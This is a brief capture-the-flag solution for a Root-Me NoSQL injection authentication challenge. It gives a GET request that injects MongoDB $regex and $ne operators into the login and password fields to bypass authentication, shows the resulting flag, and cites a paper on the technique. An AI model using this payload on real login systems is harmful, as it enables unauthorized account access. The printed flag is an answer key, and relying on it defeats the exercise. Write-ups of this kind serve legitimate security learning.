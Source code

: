 # [NoSQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication)

## Solutions

`GET /web-serveur/ch38/?login[$regex]=[^admin|test]&pass[$ne]=1`:
=> `You are connected as : flag{nosqli_no_secret_4_you}`

Flag: `nosqli_no_secret_4_you`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf?_gl=1>
